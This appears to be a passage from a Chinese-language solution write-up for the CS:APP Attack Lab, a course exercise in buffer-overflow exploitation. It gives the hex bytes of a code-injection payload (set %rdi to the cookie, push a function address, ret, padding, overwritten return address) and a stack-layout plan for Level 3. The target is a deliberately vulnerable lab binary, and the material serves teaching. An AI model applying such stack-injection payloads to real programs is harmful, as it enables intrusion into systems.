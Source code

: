 ![alt text](<img/image copy 2.png>)
- 正确答案:
```text
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
78 dc 61 55 00 00 00 00
```
### Level-3
- `touch3`的地址:
```text
0x00000000004018fa
```
- `Cookie`: `0x59b997fa`
- 思路: 这里如果把数据存储在原来的`getbuf`的栈的位置,那么就会导致数据被释放,所以可以尝试把数据放在`test`的栈上,但是注意`test`的栈虽然存储数据会到时栈帧被破坏,但是`test`不会被调用所以内存可以随便使用,其实确定栈内存可以任意使用即可
- `test`栈的地址如下:
```text
0x5561dca0  可以存储跳转位置
0x5561dca8  可以存储目标字符串
0x5561dcb0  存储指令(移动字符串到 `%rdi` 中)
0x5561dca8  `pushq touch3`指令
```